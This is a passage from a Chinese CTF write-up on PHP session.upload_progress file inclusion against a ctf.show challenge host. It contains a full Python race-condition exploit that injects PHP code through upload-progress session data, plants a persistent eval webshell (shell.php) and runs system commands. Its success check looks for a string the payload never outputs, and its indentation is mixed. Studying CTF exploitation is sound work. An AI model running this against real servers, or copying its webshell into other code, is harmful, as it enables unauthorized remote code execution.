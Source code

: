 ### 3. session.upload_progress 文件包含

这个可以看CTFer从0到1这本书，这其实是一个很正常的考点，但是真难想起来，好久没碰到了

利用脚本

```
#coding=utf-8 
import io
import requests
import threading
import sys
sessid = 'demo'
data = {"cmd":"system('id');"} 
url = "http://9859200e-75ef-4e52-9ee0-681945d01583.challenge.ctf.show:8080/"
def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( url, data={'PHP_SESSION_UPLOAD_PROGRESS': "<?php eval($_POST['cmd']);fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');echo md5('1');?>"}, files={'file': ('demo.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post(url+'?file=/tmp/sess_'+sessid,data=data)
        if 'peri0d.txt' in resp.text:
        	print("[-]"+"*"*20+"success")
            print(resp.text)
            event.clear()
            sys.exit(0)
        else:
        	print("[-]"+"*"*20+"try again"*20)
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in range(1,30): 
            threading.Thread(target=write,args=(session,)).start()
        for i in range(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
    

```

![image-20210426222517090](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210426222517090.png)

虽然session_destroy,但是在每个php请求开始的时候，都会重新创建一个。

![image-20210426224909609](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210426224909609.png)

![image-20210426224922913](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210426224922913.png)

![image-20210426224930519](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210426224930519.png)
